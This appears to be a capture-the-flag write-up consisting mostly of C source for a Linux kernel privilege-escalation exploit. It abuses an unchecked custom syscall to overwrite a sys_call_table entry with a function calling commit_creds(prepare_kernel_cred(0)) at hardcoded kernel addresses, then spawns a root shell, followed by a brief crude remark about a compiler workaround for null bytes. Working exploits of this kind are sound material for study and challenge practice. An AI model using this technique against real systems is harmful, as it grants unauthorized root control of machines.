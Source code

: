 

```
#include <unistd.h>
#include<string.h>
#include <sys/syscall.h>
#define commit_creds 0x8003f56c
#define prepare_kernel_cred 0x8003f924 
#define sys_call_table 0x8000e348 
#define SYS_upper 223
#include <stdio.h>
long hooked_syscall(){
    unsigned long (*cred_commit_func)(unsigned long) = commit_creds ; 
    unsigned long (*prepare_kernel_cred_func)(unsigned long) = prepare_kernel_cred ; 
    cred_commit_func(prepare_kernel_cred_func(0));
	return 0; 
}

int main(){
    const char  message []  = "pwn_to_own @IDHM\n" ; 
    char message2[20] ; 
    syscall(SYS_write , 1 ,message  ,strlen(message) );
    //test of the original use of the  syscall
    syscall(SYS_upper , message , message2); 
    syscall(SYS_write , 1 ,message2  ,strlen(message) );
    // hook the syscall table : because there is no write or read protection in
    // the new syscal 
    printf(" hooked syscall :: %p\n", hooked_syscall);
    fflush(stdout); 
    void * func[2] = {hooked_syscall , NULL } ; 
    syscall(SYS_upper , func  , ((void *)sys_call_table) + SYS_upper * sizeof(void *));
    syscall(SYS_upper) ; 
    syscall(SYS_write , 1 ,message2  ,strlen(message) );
    system("/bin/sh");
    return 0;
}   


``` 

compile with that shitty thing : https://gcc.gnu.org/legacy-ml/gcc-help/2010-02/msg00212.html 
cause of shitty strcpy like function that stops on zero I coulnt stay in the normal address so I had !!! to use that shitty thing !!! 
![picture 0](../images/c5514d4da189da69a8cff666642084ae46baa5d9c904afa161b6874d040a545d.png)  
